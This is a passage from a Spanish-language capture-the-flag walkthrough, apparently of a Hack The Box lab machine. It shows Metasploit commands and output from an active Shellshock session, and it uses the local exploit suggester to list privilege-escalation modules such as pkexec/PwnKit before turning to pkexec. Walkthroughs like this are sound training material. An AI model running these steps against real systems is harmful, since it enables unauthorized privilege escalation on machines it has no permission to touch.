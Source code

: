 <h2 id="Enum2">Enumerando Máquina con Metasploit Framework</h2>

Como ya tenemos una sesión activa, vamos a utilizar el módulo suggester, para que nos muestre las vulnerabilidades que tiene el sistema.

Como siempre, hagamoslo por pasos:

* Busca el **módulo suggester**:

```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > search suggester
.
Matching Modules
================
.
   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester
```

* Utiliza el módulo y configuralo:
```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
```

* Ejecuta el módulo:

```bash
[*] Running check method for exploit 56 / 56
[*] 10.10.10.56 - Valid modules for session 1:
============================
.
 #   Name                                                               Potentially Vulnerable?  Check Result
 -   ----                                                               -----------------------  ------------
 1   exploit/linux/local/bpf_sign_extension_priv_esc                    Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                Yes                      The target is vulnerable.
 3   exploit/linux/local/glibc_realpath_priv_esc                        Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/pkexec                                         Yes                      The service is running, but could not be validated.
 5   exploit/linux/local/su_login                                       Yes                      The target appears to be vulnerable.
```

Excelente, nos dio varias vulnerabilidades que tiene el sistema. Me llama la atención ese Exploit de **PKEXEC**, vamos a investigarlo.

<h2 id="pkexec">Utilizando Exploit de pkexec para Escalar Privilegios con Metasploit</h2>
